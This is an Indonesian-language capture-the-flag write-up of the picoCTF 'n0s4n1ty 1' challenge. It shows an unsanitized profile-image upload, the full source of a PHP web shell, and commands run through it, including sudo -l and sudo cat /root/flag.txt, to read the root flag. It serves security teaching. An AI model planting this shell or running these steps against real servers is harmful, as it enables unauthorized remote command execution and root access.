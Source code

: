 # n0s4n1ty 1

Pengembang telah menambahkan fungsionalitas unggahan gambar profil ke situs web. Namun, implementasinya cacat, dan menghadirkan peluang bagi Anda. Misi Anda, jika Anda memilih untuk menerimanya, adalah menavigasi ke halaman web yang disediakan dan menemukan area unggahan file. Tujuan utama Anda adalah menemukan bendera tersembunyi yang terletak di direktori.

### Petunjuk

1. Unggah file tidak disanitasi
2. Setiap kali Anda mendapatkan shell di mesin jarak jauh, periksa

```bash
sudo -l
```

## Documentation

1. Pertama -tama pergi ke instance dan Anda akan melihat kerentanan unggahan file. Jadi, skrip semacam apa pun dapat diunggah

![App Screenshot](/images/5.png)

2. Lalu saya membuat shell php ini dan diunggah ke server:

```bash
  <?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

File utama dapat diakses [disini](/NOSANITY/n0s4n1ty-1.php).

![App Screenshot](/images/6.png)

3. Maka perintah apa pun dapat dieksekusi dengan memicu jalur:
   Endpoint: uploads/shell.php?cmd=

```bash
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=
```

- Mari kita periksa pengguna saat ini:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=whoami
```

- Sekarang mari kita lihat hak istimewa untuk pengguna saat ini:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo -l
```

- Setelah mengeksekusi peerintah diatas, maka akan muncul seperti ini

```bash
Matching Defaults entries for www-data on challenge:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

```bash
(ALL) NOPASSWD: ALL
```

- Jadi, tidak ada kata sandi yang diperlukan untuk mengakses pengguna dan root mana pun.

- Sekarang mari kita dapatkan flag sebagai pengguna root:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo cat /root/flag.txt
```

- Setelah perintah diatas dijalankan maka kita akan dapat menemukan flag-nya.

